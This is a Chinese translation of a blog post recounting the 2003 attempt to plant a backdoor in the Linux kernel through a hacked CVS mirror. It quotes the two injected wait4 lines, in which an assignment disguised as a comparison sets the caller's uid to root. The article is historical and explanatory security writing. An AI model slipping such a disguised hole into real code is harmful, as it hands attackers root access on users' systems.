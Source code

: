 ```yaml
---
creators:
  - tinyeyeser
title: 揭秘！：2003年Linux后门事件
date: 2013-10-14 21:34:00
date_updated: 2013-10-14 21:34:00
slug: article-2095-1.html
url: https://linux.cn/article-2095-1.html
url_from: ''
image: album/201610/12/095124vr9cmdgilii8rrwr.png
tags:
  - debian
  - linux
categories:
  - 观点
---
```


## Summary

> 最近Josh写了一篇文章，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）
> 今天我想讲述的是另外一个事件2003年某些人试图在Linux内核中植入后门  ...

***

<!-- more -->

## Contents

最近Josh写了[一篇文章](https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/)，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）

今天我想讲述的是另外一个[事件](https://lwn.net/Articles/57135/)——2003年某些人试图在Linux内核中植入后门的故事。这次事件很明确，的确有人想植入后门，只是我们不知道此人是谁，而且，也许永远都不会知道了。

时间回到2003年，当时Linux使用一套叫做BitKeeper的系统来存储Linux源代码的主拷贝。如果开发者想要提交一份针对源码的修改，就必须经过一套严格的审核过程，以决定这份修改是否能够合并进主拷贝。每个针对主拷贝的修改都必须附带一段说明，说明当中都包括了一个记录相应审核过程的链接。

但是有些人不喜欢BitKeeper，于是这些开发者们就用另一套叫做CVS的系统（译注：Linus一直拒绝使用CVS，后来不得已使用了BitKeeper，并在因某些原因BitKeeper不再让开源社区免费使用后，花了不到一个月的时间自己开发了GIT的原型，并且投入了使用），维护了一份Linux源代码的拷贝，这样他们就能随时按自己喜欢的方式获取Linux源代码了。CVS中的代码其实就是直接克隆了BitKeeper中的代码。

但是在2003年11月5日的时候，Larry McVoy[发现](https://lwn.net/Articles/57137/)，CVS中的代码拷贝有一处改动并没有包含记录审核的链接。调查显示，这一处改动由陌生人添加，而且从未经过审核，不仅如此，在BitKeeper仓库的主拷贝中，这一处改动竟然压根就不存在。经过进一步调查后，可以明确，显然有人入侵了CVS的服务器并植入了此处改动。

神秘人物究竟做了哪些改动？这才是真正有趣的地方。改动修改的是Linux中一个叫wait4的函数，程序可以使用该函数进行挂起操作，以等待某些事件的触发。神秘人物添加的，就是下面这两行代码：

**if ((options == (\_\_WCLONE|\_\_WALL)) && (current->uid = 0))**

 **retval = -EINVAL;**

[有C语言编程经验的人也许会问：这两行代码有什么特别的？请接着往下看]

猛地一看，好像这两行代码就是一段正常的错误校验代码，当wait4函数被某种文档中禁止的方式调用时，wait4就返回一个错误代码。但是一个真正认真的程序猿立刻就会发现代码中的问题，注意看在第一行末尾，“**= 0**”应该是“**== 0**”才对。是的，“== 0”在这里才是判断当前运行代码的用户ID(current->uid)是否等于0，而“= 0”不但无法判断，反而修改了用户ID的值，即，**将其值赋值为0**。

将用户ID设置为0，这是一个很严重的问题，因为ID为0的用户正是“root”，而root账户可以在系统中做任何事情，包括访问所有数据、修改任意代码的行为，能够危及到整个系统各个部分的安全。因此，这段代码的影响就是通过特殊手段使得任何调用wait4函数的软件都拥有了root权限。换句话说，这就是一个典型的后门。

客观地说，这一招很漂亮。看起来就像是无关紧要的错误校验，但真实身份却是一个后门。而且它混在其他经过审核的代码中间，几乎规避了所有审核可能会注意到自己的可能性。

但是它终究还是失败了，因为Linux小组有足够强的责任心，注意到了CVS仓库中的这段代码没有经过常规审核。Linux还是略胜一筹。

这是NSA干的吗？只能说有可能。因为有太多拥有技术能力和动机的人有可能实施了此次攻击。那么，到底是谁呢？除非某些人主动承认，又或者发现新的确凿证据，否则，我们将永远不会知道。

 

via: <https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/>

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](https://linux.cn/) 荣誉推出

译者：[tinyeyeser](https://github.com/tinyeyeser) 校对：[wxy](https://github.com/wxy)

***

## Comments

